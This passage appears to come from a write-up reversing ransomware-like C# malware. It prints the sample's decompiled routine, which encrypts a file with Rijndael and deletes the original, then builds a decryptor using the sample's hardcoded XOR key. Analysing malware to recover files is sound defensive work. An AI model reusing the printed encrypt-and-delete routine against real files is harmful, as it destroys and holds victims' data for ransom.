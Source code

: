``` c#
	fileStream.Write(array, 0, array.Length);
	CryptoStream cryptoStream = new CryptoStream(fileStream,
						rijndaelManaged.CreateEncryptor(),
						CryptoStreamMode.Write);
	FileStream fileStream2 = new FileStream(yr9Zavw65pKUDrxZ, FileMode.Open);
	byte[] array2 = new byte[1024];
	try
	{
		int count;
		while ((count = fileStream2.Read(array2, 0, array2.Length)) > 0)
		{
			cryptoStream.Write(array2, 0, count);
		}
		fileStream2.Close();
	}
	catch (Exception)
	{
		return;
	}
	finally
	{
		cryptoStream.Close();
		fileStream.Close();
	}
	File.Delete(yr9Zavw65pKUDrxZ);
}
```

To recap, we have the xor key to generate the encryption key from the Guid, the IV is added to the beginning of every encrypted files. The remaining part is to create the decryption function and this can be done by changing `rijndaelManaged.CreateEncryptor()` to `rijndaelManaged.CreateDecryptor()`. Our final decryption function will look like this.

``` c#
public static string nVw6FkXDzmwHwVWZ(string FjzAXMdCE8cSHttD, bool cSHsdasdqwttD = true)
{
	byte[] PFEFqXuurH3zqxNp = Encoding.UTF8.GetBytes("AS~wj'sRq3c?YMjyN3r<v4(P`X`aVhV~@m>$AS~wj'sRq3c?YMjyN3r<")

	byte[] array;
	if (cSHsdasdqwttD)
	{
		array = Convert.FromBase64String(FjzAXMdCE8cSHttD);
	}
	else
	{
		array = Encoding.UTF8.GetBytes(FjzAXMdCE8cSHttD);
	}
	Console.WriteLine(array.Length);
	StringBuilder stringBuilder = new StringBuilder();
	for (int i = 0; i < array.Length; i++)
	{
		stringBuilder.Append((char)(array[i] ^ PFEFqXuurH3zqxNp[i % PFEFqXuurH3zqxNp.Length]));
	}
	return stringBuilder.ToString();
}

public static void s2T4rbNt4JPA6DeM()
{
	// first 32 bytes taken from Confidential.pdf.ghost
	byte[] array = { 0x9d, 0xa4, 0xef, 0x14, 0xa1, 0xfc, 0xa3, 0xfa, 0xcb, 0x31, 0x70, 0xd9,
	 		0x43, 0xf4, 0x62, 0x7f, 0xa5, 0xb2, 0xbd, 0xb6, 0x44, 0x69, 0x5d, 0x65,
			0xfe, 0x57, 0xa8, 0xb5, 0x90, 0xf1, 0x08, 0x5a };
	FileStream fileStream = new FileStream("confidential.pdf.ghost", FileMode.Create);
```